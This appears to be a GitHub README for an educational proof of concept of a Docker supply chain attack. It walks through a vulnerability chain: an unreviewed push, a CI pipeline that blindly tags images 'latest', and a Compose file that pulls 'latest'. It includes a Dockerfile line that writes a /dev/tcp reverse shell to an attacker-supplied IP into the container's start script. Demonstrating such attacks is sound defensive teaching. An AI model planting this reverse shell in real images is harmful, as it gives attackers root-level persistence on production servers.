

<h1 align="center">Proof of Concept for a Software Supply Chain Attack</h1>
<br/>
<p align="center">

<h3 align="center">
Docker container substitution scenario
</h3>
<hr>
<h3> ONLY FOR EDUCATIONAL PURPOSES </h3>

### Description
This scenario demonstrates how a malicious actor can substitute a legitimate Docker container with a malicious one by pushing a new version of the container to the Docker registry. Noticeable that there is a **vulnerability chain**.

**Not reviewed code was pushed**
Code with reverse shell was overlooked and pushed directly to the `master` branch.

**CI pipeline blindly pushes to the container registry with the  `latest` tag**
The pipeline configured without any security testing tools or scripts. It pushes the container to the only registry with the `latest` tag.

**Docker Compose file blindly pulls a container with the `latest` tag**
The actual vulnerability persisted in the Docker Compose file before the attack. Pulling by any version tag is not recommended in the production environment.

**Attacker gets persistance in the production server**
With the reverse shell using Netcat in the container, the attacker can get access to the production server and maintain persistence. No monitoring solutions were set up to detect the malicious activity.

**Attacker gets root access**
The Docker container runs as root in the root Docker context of the production server. Mounted by the Docker compose volumes are also accessible by the attacker. 

### Prerequisites
- Docker Engine
- Docker Compose
- Git
- One victim machine
- One attacker machine with a public or identifiably in the same network IP address (for the reverse shell)

### Setup
Just clone the current repository. You can switch between the normal and malicious states by checking out the corresponding commit:

- Normal state
```bash
git checkout c6800d09c59d4d76db5521b7a5e3ebd6e0f7e182
```

- Malicious state
```bash
git checkout 0c811eb897c1a3016fcedd46835e6c5df8ad451c
```

### Run Containers
If first time running, you can simply run the following command to start the containers:
```bash
docker-compose up
```

You can also use `docker-compose pull` to run get the latest version from the current registry.

To build the images manually, you can run the following command:
```bash
docker build . -t ghcr.io/izobretatel777/supply-chain-attack-poc:latest
```

### Normal state
There is a NGINX container running on port 80. You can access it by opening a browser and navigating to `http://localhost:80`.

### Malicious state
The NGINX container was replaced by a Ubuntu container with Netcat in the entrypoint.
You can modify the address of the Netcat server IP and port in the Dockerfile (line 8):
```Dockerfile
RUN echo "sh -i >& /dev/tcp/<Your IP Address>/<Your Port> 0>&1" > /start.sh
```
